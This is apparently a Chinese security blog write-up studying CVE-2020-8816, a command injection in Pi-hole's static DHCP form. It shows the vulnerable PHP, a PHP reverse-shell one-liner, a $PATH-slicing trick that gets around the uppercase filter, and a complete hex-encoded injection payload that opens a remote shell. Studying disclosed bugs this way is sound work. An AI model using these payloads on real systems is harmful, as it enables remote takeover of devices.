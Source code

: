 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      CVE-2020-8816的学习-远程代码执行               # 标题 
subtitle:   远程代码执行的一个学习
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


##  先截取一些有关的重要源码：
```
function validMAC($mac_addr)
{
  // Accepted input format: 00:01:02:1A:5F:FF (characters may be lower case)
  return (preg_match('/([a-fA-F0-9]{2}[:]?){6}/', $mac_addr) == 1);
}
$mac = $_POST["AddMAC"];
if(!validMAC($mac))
{
         $error .= "MAC address (".htmlspecialchars($mac).") is invalid!<br>";
}
$mac = strtoupper($mac);
if(!strlen($error))
{
       exec("sudo pihole -a addstaticdhcp ".$mac." ".$ip." ".$hostname);
       $success .= "A new static address has been added";
}
break;
```
简单解析一下：用POST的方法获取mac地址，然后使用正则判断是否符合mac地址规则，然后把所有的字符用strtoupper处理，就没有小写字母了，最后传入exec函数执行。

## 0x00 EXPLOIT(漏洞已经披露，我就学习思想吧):
- 对于**preg_match**函数，一旦匹配成功即返回1，这里的正则匹配可以让用户输入构造超预期长度的字符串类似```aaaaaaaaaaaa&&fajifla```,所以可在后面拼接
我们的其他命令，利用连接符即可。由于这是php代码，我们就用php一句话反弹shell吧，初步构造：  
```aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“ip”,port);exec(“/bin/sh -i <&3 >&3 2>&3”);’```  
- 然后该payload会经过strtoupper函数的处理，会将```php -r ```转化为``` PHP -R```，在linux下大小写敏感，会导致该payload失败，出现“PHP not found”。  
- 接下来就是一个比较犀利的操作了，作者通过构造aaaaaaaaaaaa$PATH获取了环境变量信息，恰好里面有p、h、r的字符，然后就是我第一次见到的操作了：
- 由于上条payload返回了以下内容：```AAAAAAAAAAAA/opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin```  
```
接下来就是利用shell来处理：  
W=${PATH#/???/}  
P=${W%%?????:}  
X=${PATH#/???/??}  
H=${X%%???:}  
Z=${PATH#:/??}  
R=${Z%%/}
```
这里的用法就是让'''P H R'''匹配'''p h r'''，这里涉及到shell的字符串处理，还算是简单的，```#```删除后面跟着的匹配字符串，```%%```截取从尾部最远的匹配删除。
然后构造：
```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}
&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS’EXEC(HEX2BIN(“706870202D72202724736F636B3D66736F636B6F70656E28223
1302E312E302E39222C32323536293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27”));’&&
```
其中hextobin里面的内容为php -r ‘$sock=fsockopen(“ip”,port);exec(“/bin/sh -i <&3 >&3 2>&3”);’，这样子我们就清晰了，
构造php -r exec去执行php -r ‘$sock=fsockopen(“ip”,port);exec(“/bin/sh -i <&3 >&3 2>&3”);’，这样子攻击就完成了，作者成功getshell。

## 0x01总结：  
- 一、正则绕过：对于正则的匹配进行清晰地摸查，为后续的构造提供一些必要的准备。
- 二、通过已存在变量获取我们需要的资源，是一个常用的想法，因为这是大多人会忽略的地方。
此次学习中，有些个人心得，有些业务功能是可以从功能上分析出可能会使用到系统函数或者可以执行命令的函数的，能有源码的情况下，挖掘命令执行会比较
有针对性，针对过滤函数的绕过需要不断的学习总结学习总结，然后去测试绕过，shell命令在RCE中是挺重要的，随着防护的加强，我们需要的是更加笃实的基础
利用更加有效的方式来进行，该次学习中，收获挺大，善于利用shell、和编码组合能有奇效O(∩_∩)O哈哈~，以后会多思考不同方式的配合来测试漏洞的。




